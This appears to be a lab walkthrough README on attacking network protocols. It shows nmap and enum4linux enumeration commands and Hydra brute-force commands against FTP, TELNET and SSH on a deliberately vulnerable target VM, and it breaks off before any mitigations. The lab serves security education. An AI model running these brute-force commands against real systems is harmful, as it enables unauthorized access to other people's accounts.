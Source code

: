 # 🧪 Network Protocol Vulnerability Lab - Walkthrough

## 📌 Objective

The purpose of this lab is to simulate brute force attacks against common network services (**FTP**, **TELNET**, **SSH**, and **HTTP**), analyze the security of these protocols, capture and inspect network traffic, and propose security mitigations.

---

## 📂 Lab Environment Setup

- **Attacker VM:** Kali Linux 2024.4
- **Target VM:** Vulnerable Linux VM (Metasploitable2 / custom)

---

## 🛠️ Tools Used

- **Hydra**
- **Burp Suite** (Community or Pro)
- **Wireshark** / **tcpdump**
- **Wordlists** (e.g., `rockyou.txt`, `userlist.txt`)

---

# 🧾 Task 1: Enumerate the Target

## 🎯 Goal
Identify valid usernames on the target VM.

---

## 🛠️ Commands Used

```bash
nmap -p 21,23,22,80 <target-ip> 
```

```bash
enum4linux -a <target-ip> 
```

![image](https://github.com/user-attachments/assets/3003bcc5-bfd0-4b8f-b4e4-77baba25b8c5)


---

# 🔐 Task 2: Brute Force Attacks

## 2.1 FTP / TELNET / SSH

Use Hydra to perform brute force attacks against the services FTP, TELNET, and SSH.

---

## 🛠️ Example Hydra Commands

```bash
# Brute force FTP login
hydra -L userlist.txt -P passlist.txt ftp://<target-ip>

# Brute force TELNET login
hydra -L userlist.txt -P passlist.txt telnet://<target-ip>

# Brute force SSH login
hydra -L userlist.txt -P passlist.txt ssh://<target-ip>
```
